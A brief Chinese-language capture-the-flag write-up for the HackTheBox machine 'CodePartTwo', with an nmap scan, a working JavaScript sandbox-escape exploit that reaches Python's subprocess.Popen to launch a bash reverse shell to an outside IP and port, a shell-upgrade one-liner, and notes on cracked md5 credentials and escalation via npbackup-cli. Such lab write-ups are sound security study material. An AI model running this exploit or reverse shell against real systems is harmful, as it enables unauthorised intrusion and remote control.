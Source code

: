 ## 扫描
```BASH
┌──(kali㉿kali)-[~/Desktop/htb/CodePartTwo]
└─$ nmap -sT -Pn 10.10.11.82 -v
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-09 23:08 EDT
Initiating Parallel DNS resolution of 1 host. at 23:08
Completed Parallel DNS resolution of 1 host. at 23:08, 0.05s elapsed
Initiating Connect Scan at 23:08
Scanning 10.10.11.82 [1000 ports]
Discovered open port 22/tcp on 10.10.11.82
Discovered open port 8000/tcp on 10.10.11.82
Completed Connect Scan at 23:10, 111.99s elapsed (1000 total ports)
Nmap scan report for 10.10.11.82
Host is up (0.99s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 112.20 seconds
```

exp
```JS
let cmd = "bash -c 'sh -i >& /dev/tcp/10.10.16.64/23456 0>&1'; "
let hacked, bymarve, n11
let getattr, obj

hacked = Object.getOwnPropertyNames({})
bymarve = hacked.__getattribute__
n11 = bymarve("__getattribute__")
obj = n11("__class__").__base__
getattr = obj.__getattribute__

function findpopen(o) {
    let result;
    for(let i in o.__subclasses__()) {
        let item = o.__subclasses__()[i]
        if(item.__module__ == "subprocess" && item.__name__ == "Popen") {
            return item
        }
        if(item.__name__ != "type" && (result = findpopen(item))) {
            return result
        }
    }
}

n11 = findpopen(obj)(cmd, -1, null, -1, -1, -1, null, null, true).communicate()
console.log(n11)
n11
```

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

在user.db中发现存在账户名与密码，代码显示为md5加密

![](attachments/Pasted%20image%2020250910151713.png)


进入marco后发现存在npbackup-cli，可以连带执行命令

![](attachments/Pasted%20image%2020250910152045.png)

![](attachments/Pasted%20image%2020250910151837.png)
